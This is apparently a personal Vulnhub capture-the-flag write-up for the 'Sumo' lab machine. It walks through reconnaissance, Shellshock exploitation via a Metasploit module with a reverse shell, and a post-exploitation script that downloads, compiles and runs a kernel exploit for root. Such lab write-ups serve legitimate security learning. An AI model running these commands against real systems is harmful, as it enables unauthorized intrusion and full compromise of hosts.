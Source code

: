 # Vulnhub Writeup #5: Sumo
## MITRE Att&ck Overview
---
![](2021-10-28-01-58-47.png)
MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
--------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Techniques and procedures
- Opened up ZAP and crawled host's port 80 HTTP server; found nothing of note. 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster ( #Crawling )
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance.md) which was able to identify this folder, as well as a default "it works! file". From here there seem to be 2 ways to find the vector:
    1) Nikto
    2) Knowing that CGI is extremely vulnerable
No other write-ups I've found have illustrated using pure deduction to figure this vector out.

## Initial Access, Execution & Command and Control
--------
Scanned for shellshock vulnerabilities in MSF (Searchsploit could've been used here as well):
```
search shellshock
```

The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an available msf module.

###### Metasploit Resource Script for exploitation
```
sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set PAYLOAD payload/generic/shell_reverse_tcp
set TARGETURI /cgi-bin/test/test.cgi
set RHOST 172.16.2.44
set LPORT 4444
set CVE CVE-2014-6278
exploit
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh
```
#MetasploitScripts


## Discovery > Collection > Exfiltration
--------
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Discovery](Discovery.md)

## Privilege Escalation
--------
Simply looking up the kernel version in SearchSploit uncovered kernel exploit based LPE
```text 
searchsploit ubuntu 3.2.0 
```


### sumo_post.sh - privilege escalation script
```bash
# sumo_post.sh 
# move here for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```



## Appendix: 
---
## Key lessons learned:
---
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability
-Modify shell path early on to avoid "missing" binaries with ```export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin```

## Technical Issues Encountered
---
Encountered 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld)

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp

Tags
#vulnhub #linux